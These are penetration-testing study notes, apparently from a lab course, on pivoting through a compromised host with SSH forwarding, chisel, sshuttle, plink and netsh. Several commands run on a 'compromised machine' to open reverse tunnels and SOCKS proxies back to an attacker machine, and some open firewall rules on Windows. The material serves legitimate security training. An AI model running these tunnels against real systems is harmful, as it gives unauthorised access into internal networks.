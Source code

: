 ### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d54b48e3-43ed-4fde-ad3f-2d28b538bde5)

forward all packets which go to remote compromised machine:445 to 192.168.1.110:445(PGDATABASE01)
```
remote compromised machine(confluence01): ssh -N -L 0.0.0.0(src CONFLUENCE01):445:192.168.1.110(dst PGDATABASE01):445 student@PGDATABASE01
```
###### ssh remote port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9355bdff-aa68-4989-aa53-0f3074a39739)

```
remote compromised machine(confluence01): ssh -N -R 127.0.0.1(confluence01):2345:10.4.50.215(PGDATABASE01):5432 kali@192.168.118.4(attacker machine)
```
###### SSH Dynamic Port Forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f68cfac3-7e49-4f50-b104-ad7a672958e7)

Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised machine to a further internal network(PGDATABASE01)

After bind proxychains to confluence01, through proxychains all traffic can be forwarded to all ports of PGDATABASE01, accessing 127.0.0.1 is like accessing remote machine(PGDATABASE01)
```
remote compromised machine: ssh -N -D 0.0.0.0:9999(remote compromised machine - confluence01) database_admin@10.4.50.215(PGDATABASE01)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999(remote compromised machine - confluence01)
```
###### SSH Remote Dynamic Port Forwarding 
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/118dc119-bbce-4559-8ec6-5b1c1b7e50f5)

Remote Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised host(confluence to attacker machine)
```
remote compromised machine(confluence01): ssh -N -R 9998 kali@192.168.118.4(attacker machine)(listening state)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998(attacker machine)
```
###### sshuttle
```
1. confluence01: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22(PGDATABASE01)
2. kali(attacker machine): sshuttle -r database_admin@192.168.50.63(PGDATABASE01):2222 10.4.50.0/24 172.16.50.0/24
```
###### httptunnel
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0c4201e9-44ae-4d2f-ad93-a5ddb4317f52)
```
Confluence01: .\chisel.exe client 192.168.45.214:8080 R:socks
kali(attacker machine): chisel server --port 8080 --reverse/chisel server --port 8080 --socks5 --reverse

proxychains4:
add socks5 127.0.0.1 1080(chisel default port to listen)
disable proxy dns
sudo proxychains4 -f /etc/proxychains4.conf nmap -sS -Pn -p 80 172.16.243.10
```
Replace <kaliIP> with the IP address of your Kali machine. This command will instruct Chisel to connect back to the Kali machine on port 9002 and forward any traffic sent to localhost port 40000 to port 40000 on the Windows machine.
```
./chisel server --reverse --port 90021. This will start Chisel in server mode and listen for connections on port 9002.
chisel.exe client <kaliIP>:9002 R:40000:localhost:40000
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=4455 listenaddress=10.11.0.22
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
